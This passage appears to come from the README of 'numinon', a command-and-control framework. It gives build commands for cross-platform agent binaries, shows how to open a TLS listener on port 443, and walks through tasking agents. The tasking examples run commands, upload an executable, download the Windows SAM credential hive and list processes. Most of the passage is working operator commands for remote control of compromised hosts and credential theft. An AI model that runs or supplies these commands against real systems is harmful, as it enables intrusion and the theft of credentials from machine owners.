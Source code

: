 2. **Build agent binary**
```bash
# For current OS/architecture
./bin/numinon-builder -target current

# For specific targets
./bin/numinon-builder -target windows-amd64
./bin/numinon-builder -target linux-amd64
./bin/numinon-builder -target darwin-arm64

# For all supported platforms
./bin/numinon-builder -target all
```

Compiled agents will be in `./bin/` directory.

### Operating the Framework

#### Creating Listeners
```bash
./bin/numinon-client -server ws://localhost:8080/client \
  -action create-listener \
  -proto H2TLS \
  -addr 0.0.0.0:443
```

#### Tasking Agents

**Execute Command:**
```bash
./bin/numinon-client -action task-runcmd \
  -agent <AGENT_ID> \
  -cmd "whoami"
```

**Upload File:**
```bash
./bin/numinon-client -action task-upload \
  -agent <AGENT_ID> \
  -file /path/to/local/file \
  -save C:\\Temp\\uploaded.exe
```

**Download File:**
```bash
./bin/numinon-client -action task-download \
  -agent <AGENT_ID> \
  -file C:\\Windows\\System32\\config\\SAM
```

**Enumerate Processes:**
```bash
./bin/numinon-client -action task-enumerate \
  -agent <AGENT_ID> \
  -process explorer.exe  # Optional filter
```
